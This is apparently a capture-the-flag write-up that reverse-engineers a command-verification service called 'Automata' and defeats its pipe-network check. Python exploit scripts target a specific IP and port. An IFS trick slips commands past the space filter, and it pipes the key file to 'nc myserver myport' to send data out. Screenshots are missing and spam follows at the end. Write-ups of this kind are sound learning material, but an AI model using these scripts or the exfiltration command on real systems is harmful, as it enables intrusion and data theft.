

Task:
==========================================
OS : Ubuntu 13.10 x86
IP : 58.229.183.18 / TCP 8181
http://58.229.183.26/files/automata_7329666edefb3754ec91b7316e61bb7d
==========================================
Solution:
I've started with nc 58.229.183.18 8181 and recieved this conversation:
[=] Welcome to Automata System [=]
[*] Enter your command: abc
[*] Enter your code: 1234
[!] Wrong code
Server asks me a command and some code for this command. So i have to go deeper. I downloaded and reversed binary from link. After some digging, i've found function with code:
And vars' declaration:
I'm in function that recieves my command and code, i think sub_113B just prints something and sub_116C reads. Inside:
sub_113B:
Like i said, it's just send string to you,
and sub_116C:

It reads string, but it cuts your string after first occurrence of space, \t, \r, \n, ', ". Just keep it in the mind, and now go further.
Sub_1339:
This function generates 3 int numbers for string (for command in this case), and sum of all numbers is equal to 43. Go more further:
This part of main function checks code, which i send to server. For all bytes of a code it evaluates a number. A bit more detailed evaluation in assembler listing:
It converts byte of code to 0xFF or to 0x00, depends on highest bit, then adds byte of code to result, then cuts of high-word of result and substructs 0xFF or 0x00. I rewrite this evaluation in following code:
highest = 0x80 & code
if (highest)
mask = 0xFF
else
mask = 0x00
result = (mask+code) & 0x0F - mask
So if highest bit code's byte is zero, then result is just low-word of code's byte! It's main idea. As we can see above, the result of this evaluation is compared to 1,2 and 3. If it is equal to 1,2 or 3 corresponding value will be incremented, if it's not equal, then function sub_1229 is called:
And we get "Wrong code" message.. The easiest way is to use bytes 0x01, 0x02 and 0x03 in a code, and result of evaluation always will be 1,2 or 3.
Next part of main function:
If you return to begining, you'll see, that v13,v14,v15 lay sequentially in the memory,and v13 sent to sub_1339 as argument, that will recieve 3 int numbers, so v13,v14 and v15 will hold 3 numbers for command. And, as you can see, code for command must contain as many 0x01 bytes as first number of result of sub_1339, as many 0x02 bytes as second number and as many 0x03 bytes as third. Totally code consists of 43 bytes. For example: command = "ls", result of sub_1339: 18,17,8, so you you can send: "0x01"*18 + "0x02"*17 + "0x03"*8 + "\n" via python and get "Verifying your code" message. Below is python script generating code for any command:
#!/usr/bin/env python
from socket import create_connection
from time import sleep
def func(s):
buf = 0
for c in s[::-1]:
buf = (37 * (buf + ord(c))) % 2**32
v2 = buf % 17 + 1
v3 = (buf & 0xF) + 1
v1 = 43 - v2 - v3
return v1, v2, v3
if __name__ == "__main__":
command="ls"
res = func(command)
print res
code = "\x01" * res[0]
code += "\x02" * res[1]
code += "\x03" * res[2]
code += "\n"
con = create_connection(('58.229.183.18', 8181))
print con.recv(1024)
print con.recv(1024)
con.send(command)
sleep(0.1)
print con.recv(1024)
con.send(code)
sleep(0.1)
print con.recv(1024)
exit(0)
Bad news everyone. Verifying is only starting.. and what did all checks above?... But we have no choice, let's go further.
Next block of code repeats with some changes 8 times:
Program opens several pipes, binds it to numbers, forks itself, then child will looping forever and parent will close several pipes. Also parent gives some pipes for read to child (from 1 to 5 in each block), child calls 2 functions:
sub_11B:
This sub just prints a percents on screen. Child reads a number from pipe and prints it like a part of 43 in percents.
sub_127F:
This sub gets code, number and signal (will be discussed later) and 3 pipes to write. It checks byte of a code (like before with shifting), and sends incremented buffer to first pipe if byte's result is equal to 1, and etc. Sub checks only one byte of a code: code[buf]. And if buf == 43 child sends signal to parent.
So, each child reads numbers from pipes. Checks corresponding byte of code and write incremented number to a pipe (so next child process will check next byte of code). If code ends (buf==43) , child send signal to parent. There are two types of signal: 10 and 12. Childs form #0 to #6 will send signal 10 and child #7 will send 12. At the end of main function:
So parent set handlers for signal 10 and 12, sends buf to pipe (buf was set to 0 above) and then waiting for childs.
Handler's code:
sub_124E:
sub_1229: (you also can find it above)
If parent recieves signal 10, it prints "Registered" and execute command which we have sent to him. So, now we know what we must do:
1) Take a command ("ls" will be good)
2) Evaluate corresponding code for it
3) Find the code that will send signal 10 to parent.
We can perform first two steps, but for the third step we should analyze pipes network.
Just go through all block, carefully analyze all pipes..
When pipe is created, two.. "slots" are created for it. One for reading and one for writing. Slots get sequential handles: fd+1 is a reading slot for first pipe, fd+2 is a writing slot for first pipe, fd+3 is a reading slot for second pipe and so on. Parent process closing not whole pipe, but only some slots, so he can close slots fd+2 and fd+4, and next pipe will be mapped to fd+2 (reading) and fd+4(wrtinig).
In first block slots 1,3,5 were created for reading and 2,4,6 for writing. And slots 1,3,4,6 were given away to child #0 and then were closed. So next pipe will be mapped to 1,3 (read-wrtie). We should keep in mind all connections to recreate network. For example: slot with number connected with slot 6, that was given to child #0, so if someone will read it, he will read output of child #0. But after this block slot #6 is closed, so in next blocks slot #6 will have different meaning and would not be connected to slot #5.
When all blocks had been analyzed we created this table:
First row is a numbers of pipes. There are 20 different pipes. Second row is a read and write slots for each pipe. Next rows correspond to eight childs (c0..c7) and parent process (p). Numbers in cells correspond to numbers that are used in program to mapped slots (fd+1 = 1 and so on). So if in code you find, that child #2 reads fd+4, you can look in table, find row with name "c2", find number '4' in taht row, and then find write slot in corresponding pipe (marked with color) , and you will see, that child #1 writes into slot fd+6, which is connected to child's #2 slot fd+4.
Now we can build network scheme:
As you can see, last child, that will send bad signal, send numbers to itself, so it can easly get 43 and send bad signal to parent. So our code should never send numbers to child #7.
And tere is a list of trasitions between childs. They sorted by code's bytes evaluation result, so first transition occurs, when result is equal to 1, second, when equal to 2, etc:
And final version of the network:
We can start code with 0x01 and 0x2, and child #0 will send numbers to itself... but how we can handle 0x03 byte? There is cycle 1-2-3-5 in network ( send bytes 0x01, 0x02, 0x03, 0x03 for this cycle) and we must send 0x03 to leave child#0.
Idea of the attack is to burn all 0x03 in cylce above, by performing 0x01, 0x02, 0x03, 0x03 byte sequence. If number of 0x03 bytes is odd we will burn all 0x03 bytes (cos we have to send one 0x03 to leave child #0) if it is even, we should perform additional 0x01, 0x02, 0x03 sequence after. And we can burn all others 0x01 and 0x02 in child #0.
Let a - number of 0x01, b - 0x02 and c - 0x03. We have two attack sequence:
Even-case: "\x01"*(a-c/2) + "\x02"*(b-c/2) + "\x03" + "\x01\x02\x03\x03"*(c/2-1) + "\x01\x02\x03" + "\n"
Odd-case: "\x01"*(a-c/2) + "\x02"*(b-c/2) + "\x03" + "\x01\x02\x03\x03"*(c/2) + "\n"
There is one problem: if a or b is less than half of c, we will get error, but let's skip this problem now.
Finally i wrote this script, that can send a valid code to pass verification:
#!/usr/bin/env python
from socket import create_connection
from time import sleep
def func(s):
buf = 0
for c in s[::-1]:
buf = (37 * (buf + ord(c))) % 2**32
v2 = buf % 17 + 1
v3 = (buf & 0xF) + 1
v1 = 43 - v2 - v3
return v1, v2, v3
if __name__ == "__main__":
command="ls"
res = func(command)
print res
con = create_connection(('58.229.183.18', 8181))
print con.recv(1024)
print con.recv(1024)
con.send(command)
sleep(0.1)
a, b, c = res
cc = c / 2
print con.recv(1024)
if c % 2 == 0:
con.send("\x01"*(a-cc) + "\x02"*(b-cc) + "\x03" + "\x01\x02\x03\x03"*(cc-1) + "\x01\x02\x03" + "\n")
else:
con.send("\x01"*(a-cc) + "\x02"*(b-cc) + "\x03" + "\x01\x02\x03\x03"*(cc) + "\n")
sleep(0.1)
print con.recv(1024)
while(1):
sleep(1)
ans = con.recv(1024)
print ans
if ans.find("[!]") != -1:
exit(0)This script results in "[!] Registered" message. So i'd sent "ls | nc myserver myport" command.. and recieved an wrong code error... Remember the function which recieves my commands.. this function will cut command on space symbol.. so server could not perform commands with spaces... at this point i was stucked and screwed up.. how to send "ls | nc myserver myport" without spaces, tabs, etc?
There is Internal Field Separator - IFS, if you set IFS to something, system will treat that symbol like separator.
So IFS=_; a = ls_-la; echo ${a} will performs "ls -la", cos '_' treats as separator (like space). And the command "IFS=_;a=ls;b=nc_myserver_myport;${a}|${b}" sends listing of a directory to myserver. There are two files: automata and key. The next command:
"IFS=_;a=cat_key;b=nc_myserver_myport;${a}|${b}"
returns: F4ILUrE_Is_N0T_an_O0PtI1On
Flag: F4ILUrE_Is_N0T_an_O0PtI1On
Sports News | Nike Air Max 270 - Deine Größe bis zu 70% günstiger